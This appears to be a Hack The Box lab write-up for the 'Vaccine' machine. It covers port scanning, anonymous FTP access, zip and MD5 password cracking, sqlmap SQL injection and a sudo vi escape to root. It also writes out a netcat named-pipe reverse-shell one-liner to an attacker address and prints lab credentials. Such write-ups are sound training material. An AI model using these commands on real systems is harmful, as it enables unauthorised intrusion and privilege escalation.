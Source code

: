 ```yaml
---
title: Starting Point | Vaccine
author: Zeropio
date: 2022-04-30
categories: [HackTheBox, StartingPoint]
tags: [htb]
permalink: /htb/starting-point/vaccine
---
```



# Enumeration
First we scan the IP:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 13:27 EDT
Nmap scan report for 10.129.13.233
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```

---

# Explotation

### FTP
We would try to login with a default user in the ftp:
```console
> ftp anonymous@10.129.13.233
Password: 
230 Login successful.
```

We can try to navigate throw the FTP:
```console
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
ftp> cd ..
```
We can download the zip, but we can not navigate to other directory.

If we try to unzip but it ask for a password. We need to crack the password:
```console
> sudo zip2john backup.zip > ziphash  
> sudo john ziphash --fork=10 -w=/usr/share/wordlists/rockyou.txt
    741852963
```

There we have logins to the webpage, but the password is encrypted.
We can see that is a md5 with **hash-identifier**. If we search it we can get the plain text: **qwerty789**.
Now we can login in the page.

### SQL
We can see that we have a table, if we search on it the url change:
```
http://10.129.13.233/dashboard.php?search=
```

It seems to have a <a href="{{ "/notes/databases/sql/" | prepend: site.baseurl }}">SQLi</a>, so we can try to use **sqlpmap**:
```console
sqlmap -r req
```
Where **req**:
```
GET /dashboard.php?search=a HTTP/1.1
Host: 10.129.13.233
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.13.233/dashboard.php
Connection: close
Cookie: PHPSESSID=05ndh3sf35jpa3l93oj9afdlgf
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

We check that it has a SQLi, then we can start a reverse shell:
```console
sqlmap -r req --os-shell
```
We should start a reverse shell in the **os-shell>** to more accessibility. We will open a port in our host and send this command on **Vaccine**:
```console
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.167 9000 >/tmp/f
```

---

# Privilage Escalation
We can go to **/var/www/html** and search for credentials with:
```console
> cat * | grep pass
```
We can see the credentials: **postgres:P@s5w0rd!**. Now we can try:
```console
> script /dev/null -c bash # To get a better shell
> sudo -l
    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Now, we will execute vi.
```console
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
Afterwards, we execute:
```console
:!/bin/bash
```
And now we are root.
